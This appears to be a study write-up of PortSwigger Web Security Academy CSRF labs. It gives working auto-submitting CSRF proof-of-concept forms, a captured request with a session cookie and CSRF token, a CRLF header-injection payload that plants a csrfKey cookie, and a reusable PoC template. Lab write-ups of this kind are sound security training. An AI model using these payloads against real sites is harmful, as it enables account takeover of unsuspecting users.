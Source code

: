 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF where token validation depends on request method
- We note that changing email requires a CSRF token that cannot be removed or nullified in the body of the POST request.
- Let's alter the POST request from:
```
POST /my-account/change-email HTTP/2
Host: 0aa300e903e645daa8aadef600a10092.web-security-academy.net
Cookie: session=6zRITg1tqB9Eh3jTUmhYmhCv0JewZeLJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net
Referer: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Te: trailers

email=wiener4%40normal-user.net&csrf=wxN4HFe3P0vgWDHNar2dTT0QuGrj8yy9
```
to 

![image](https://github.com/user-attachments/assets/28a9f86f-b4be-4d4e-87b1-8e09c212a52e)

## CSRF where token validation depends on token being present
- Changing email initially includes a CSRF token in the body, but we found just removing it still allows for successful changing of email. We generated a CSRF PoC by just removing the CSRF token.

## CSRF where token is not tied to user session
- Two users are provided. We assume one as compromised and intercept the POST request to change email. Copy the CSRF token and drop the request.
- Generate a CSRF PoC with the copied CSRF token of the compromised user and use it to change the email of the second user.

## CSRF where token is tied to non-session cookie
- Two accounts provided, email change functionality is vulnerable to CSRF. Uses tokens, but not fully integrated into the site's session handling.
- How can we change the csrfKey cookie? Well, let's look around the site ... we notice when we search, the response contains a header called `Set-Cookie: LastSearchTerm=test`. Let's see if we can manipulate the search input.

`GET /?search=test%0d%0aSet-Cookie%3a%20csrfKey=OlW2HYkhUmzU9Y8pNOUOdRimsZ632Pl4%3b%20SameSite=None HTTP/2` %0d%0a is /r/n (carraige return, new line).

![image](https://github.com/user-attachments/assets/df5b90aa-f824-45ae-86e3-76949587df6f)



## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

